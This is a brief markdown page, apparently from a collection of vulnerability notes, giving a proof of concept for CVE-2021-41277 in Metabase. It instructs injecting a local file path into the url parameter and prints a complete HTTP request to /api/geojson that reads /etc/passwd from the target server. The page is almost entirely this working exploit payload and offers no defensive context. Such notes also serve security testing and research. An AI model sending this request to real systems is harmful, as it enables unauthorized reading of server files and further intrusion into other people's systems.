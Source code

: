 # Metabase CVE-2021-41277 SSRF

Inject the `url` parameter by inserting a local file inclusion.

```
GET /api/geojson?url=file:/etc/passwd HTTP/1.1
Host: VulnMachines By Punit Darji
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:94.0) Gecko/20100101 Firefox/94.0
```
